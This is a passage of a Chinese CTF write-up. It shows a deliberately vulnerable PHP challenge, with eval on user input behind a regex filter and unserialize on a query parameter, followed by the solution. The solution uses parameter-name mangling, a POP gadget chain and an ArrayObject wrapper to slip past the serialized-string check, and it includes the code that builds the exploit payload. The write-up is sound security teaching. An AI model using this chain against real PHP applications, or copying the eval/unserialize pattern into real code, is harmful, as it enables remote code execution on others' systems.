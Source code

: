 ```php
			}                
			$tmp = file_get_contents('ctfw.txt');                   
			echo $tmp."<br>";                   
			if (!preg_match("/f|l|a|g|x|\*|\?|\[|\]| |\'|\<|\>|\%/i",$_GET['cmd'])){                       
				eval($tmp($_GET['cmd']));                   
			}else{                       
				echo "waf!";                   
			}            
			file_put_contents("ctfw.txt","");           
		}           
		return "Go on";           
	}   
}
	         
if (!$_GET['show_show.show']){       
	echo "开胃小菜，就让我成为签到题叭";    
	highlight_file(__FILE__);   
}else{       
	echo "WAF,启动！";   
	waf1($_REQUEST);    
	waf2($_SERVER['QUERY_STRING']);       
	if (!preg_match('/^[Oa]:[\d]/i',$_GET['show_show.show'])){        
		unserialize($_GET['show_show.show']);       
	}else{           
		echo "被waf啦";       
	}      
}
```

传参考点是`[` 
`?show[show.show=`

反序列化
`ctf:__destruct()->show:__call()->chu0_write:__toString()`

传入时利用`ArrayObject`的接口特性，反序列化为C类型的反序列化字符串
地址绕过判断

```php
$ctf = new ctf();
$show = new show();
$C = new Chu0_write();
$ctf->h1 = $show;
$ctf->h2 = [['','',$C]];
$C->chu1 = &$C->chu0;

$arrayobject = new ArrayObject($ctf);
echo(serialize($arrayobject));



if (!preg_match('/^[Oa]:[\d]/i',$_GET['show_show.show'])){
    unserialize($arrayobject);
}
```
